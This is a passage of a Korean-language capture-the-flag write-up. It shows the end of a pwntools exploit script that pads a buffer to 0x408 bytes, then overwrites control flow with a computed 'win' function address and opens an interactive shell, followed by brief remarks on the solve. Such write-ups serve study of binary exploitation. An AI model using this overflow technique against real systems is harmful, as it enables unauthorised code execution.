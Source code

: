             if size==13:
                    log.info("count::"+str(count))
                    p.sendafter("chars: ","A"*(size-5)+"\x00")
                    count += (size-5)
                    if count == 0x408:
                            log.info("SIZE::::"+str(count))
                            break
                    continue
    
            if size==14:
                    log.info("count::"+str(count))
                    p.sendafter("chars: ","A"*(size-6)+"\x00")
                    count += (size-6)
                    if count == 0x408:
                            log.info("SIZE::::"+str(count))
                            break
                    continue
    
    	p.sendafter("chars: ","\x00")
    
    win = base_addr+0xb57
    log.info("base_addr::"+hex(base_addr))
    log.info("win_addr::"+hex(win))
    
    while 1:
    	p.sendafter("> ","2")
            p.recvuntil("me ")
            size=int(p.recvuntil(" ")[:-1])
    	
    	if size == 0:
    		continue
    
    	if size == 8:
    		#p.sendafter("chars: ",str(win))
    		p.sendafter("chars: ",p64(win))
    		break;
    
    	p.sendafter("chars: ","\x00")
    
    p.sendafter("> ","0")
    
    p.interactive()

너무 막짠거 같지만.. 뭐 플래그는 잘 나오니..ㅋ

<br><br>

### 4. 몰랐던 개념

---

어려운건 딱히 없었는데, 서버에서 데이터를 받는 처리로직이 쪼금 문제가 있어서 거기서 삽질을 한거 같다.